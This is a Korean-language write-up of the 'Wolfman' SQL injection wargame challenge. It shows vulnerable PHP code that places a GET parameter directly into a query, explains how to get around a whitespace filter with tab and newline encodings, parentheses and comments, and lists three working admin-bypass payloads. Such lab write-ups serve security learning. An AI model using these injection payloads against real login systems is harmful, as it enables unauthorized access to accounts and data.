 ###### 이번부터 한글로 적기로 하였습니다..
# **Wolfman**
## 1. 문제의도
공백 없이 쿼리를 작성할 수 있는가?

## 2. 코드
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))  
          exit("No Hack ~_~"); 

      if(preg_match('/ /i', $_GET[pw]))
          exit("No whitespace ~_~"); 

      $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
          echo "<h2>Hello {$result[id]}</h2>"; 
      
      if($result['id'] == 'admin')
          solve("wolfman"); 

      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
우리는 아래와 같은 내용을 사용할 수 없습니다.  
이전의 내용들과 다른 점은 공백을 사용할 수 없다는 점입니다.

    prob | _ | . | () | 공백

### 2. query

    select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'

pw 파라미터를 통해서만 이 쿼리를 조작할 수 있을 것 같다.

### 3. if($result['id'] == 'admin') solve("wolfman");

만약 id가 admin인 행의 값을 가져오는 데 성공한다면 우리는 이 문제를 클리어 할 수 있습니다.

## 3. Solution

이 문제에서는 우리가 MySQL의 부드러운 문법에 대해 알고 있는지에 대한 것 같다

중요한 것은 공백 이외의 구분문자들을 통해서도 쿼리를 구성 할 수 있다는 것이다.

### 1. 이스케이프 문자 사용
우리가 보아왔던 이스케이프 문자들 중에서 MySQL이 구분문자로 인식하는 것들은 다음과 같다.

    %09 | %0a | %0b | %0c | %0d

    %09 = Horizontal Tab (수평 탭. \t)
    
    %0a = Line Feed (Move Caret right down. \n)
    
    %0b = Vertical Tab (수직 탭. \v)
    
    %0c = Form feed (if you use this in printer, it will change paper to next paper. 다음장으로 바꿈. \f)
    
    %0d = Carriage return (Move Caret start of line where this is. 타자기에서 끝까지 다 쳤을때 왼쪽으로 미는거 \r)

### 2. 괄호 사용
그리고 (), 괄호를 사용할 수도 있다.

    or id="hello" 와 or(id)="hello" 는 같은 맥락이다.

### 3. 주석 활용
주석을 사용하면 공백과 같은 구분 효과를 얻을 수 있다.

    or id="admin" 과 or/**/id="admin" 은 같은 맥락이다.

### My Answers :
    
    ?pw='or%09id='admin // 구분 문자 이용

    ?pw='or(id)='admin // 괄호 사용 구분

    ?pw='or/**/id='admin // 주석 사용
      
**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL/blob/master/Security/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**